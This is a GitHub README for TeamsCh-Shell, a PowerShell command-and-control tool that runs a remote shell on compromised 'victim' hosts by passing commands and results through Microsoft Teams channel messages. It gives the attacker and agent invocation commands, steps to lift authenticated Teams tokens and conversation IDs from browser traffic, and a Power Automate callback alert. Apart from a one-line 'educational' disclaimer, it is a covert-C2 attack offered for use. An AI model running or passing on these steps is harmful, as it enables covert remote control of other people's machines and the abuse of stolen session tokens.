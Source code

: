# TeamsCh-Shell

## Overview
This project aims to create a lightweight tool that utilizes the Microsoft Teams Channel API to establish command and control over compromised systems with as few prerequisites as possible. The command and control communication solely abuses the Microsoft Teams Channel API, and no Teams desktop app installation is required.

## Workflow

![426539136-3773069b-f6eb-4ad1-b089-97b684ade053](https://github.com/user-attachments/assets/a9914060-c6fb-442b-a4ec-6bafd3b53f48)


## Why TeamsCh-Shell?
- Lightweight PowerShell agent with no dependencies
- Leverage MS Teams Channel API only
- Not recursively look into MS Teams log files
- Embed commands directly into messages rather than in images file

## Usage
### Agent
```
. ./TeamsCh-Shell-Agent.ps1
TeamsCh-Shell-Agent -Inputconversationid "$Inputconversationid" -Outputconversationid "$Outputconversationid" -token "$token"
```
```
- token                 Authenticated browser token running on Microsoft Teams
- Inputconversationid   Teams Channel conversation ID for receive command
- Outputconversationid  Teams channel conversation ID for the output of the executed command result
- time                  The time interval to check for updated commands in the Teams Channel

Notes: Token expiration time is 24 hours by default
```
### Attacker
```
. ./TeamsCh-Shell-Attacker.ps1
TeamsCh-Shell-Attacker -Inputconversationid "$Inputconversationid" -Outputconversationid "$Outputconversationid" -token "$token"
```
```
- token                 Authenticated browser token running on Microsoft Teams
- Inputconversationid   Teams Channel conversation ID for receive command output
- Outputconversationid  Teams channel conversation ID for the output of the executed command
- time                  The time interval to check for executed command result in the Teams Channel

Notes: Token expiration time is 24 hours by default
```
## Steps to reproduce

1. Create Two Teams Channels:
- One channel is designated for the attacker to transfer system commands that will be received and executed on the victim's host.
> [!NOTE]
> Attacker's Teams token has Read and Write permissions on the channel, while Victim's Teams token has at least Read permission.
- Second channel is used to receive the results of the executed commands from the victim's host, allowing attacker to read the commands results from this channel.
> [!NOTE]  
> Victim's Teams token has Read and Write permissions on the channel, while Attacker's Teams token has at least Read permission.

![2](https://github.com/user-attachments/assets/8b182573-9c9c-4a4b-a00c-326b57ac3c13)
![3](https://github.com/user-attachments/assets/71067e28-06f5-4e06-99a5-a46d7aa8a8f7)


2. Extract token and conversationid of Teams Channels:
- Access the Inspect tool and navigate to the Network tab.
- Send a message in the Teams channel and apply a filter for the keyword 'messages' to filter relevant network traffic.
- Extract the Authenticated Teams token and conversationID from the request.
  
![4](https://github.com/user-attachments/assets/d403b8f8-6b1e-4d63-9590-47b3a0b215e3)


3. Execute TeamsCh-Shell-Attacker.ps1 script on the attacker host and input command:
```
. ./TeamsCh-Shell-Attacker.ps1
TeamsCh-Shell-Attacker.ps1 -token "eyJ0eXAiOiJ***PykNgVhCEjA" -Outputconversationid "19:952***9e@t***2" -Inputconversationid "19:c92***8a@t***2"
```

![image](https://github.com/user-attachments/assets/54550c49-2bde-4a8a-a4fd-b1b208ba515a)


4. Execute TeamsCh-Shell-Agent.ps1 script on the victim host:
```
. ./TeamsCh-Shell-Agent.ps1
TeamsCh-Shell-Agent.ps1 -token "eyJ0eXAiO***Cu9Jp8l3kF70Ug" -Inputconversationid "19:952***9e@t***2" -Outputconversationid "19:c92***8a@t***2"
```

![image](https://github.com/user-attachments/assets/be914ba3-d283-4549-be06-074522170a7e)


5. Shell callback Notification
- Power Automate can set up a condition to check for incoming messages to the channel. If incoming messages are sent to the channel, the condition is triggered, and a notification email will be sent to the inputted email address.

![6](https://github.com/user-attachments/assets/1d23c839-b637-4ade-aed1-baaeca0e4acf)

## Disclaim
san6051 is developed with the intension of using this tool only for educational purpose.
  
## Credits / Reference

- [convoC2](https://github.com/cxnturi0n/convoC2) by @cxnturi0n
- [Microsoft-Teams-GIFShell](https://github.com/bobbyrsec/Microsoft-Teams-GIFShell) by @bobbyrsec
- [gifshell-covert-attack-chain-and-c2-utilizing-microsoft-teams-gifs](https://medium.com/@bobbyrsec/gifshell-covert-attack-chain-and-c2-utilizing-microsoft-teams-gifs-1618c4e64ed7) by @bobbyrsec
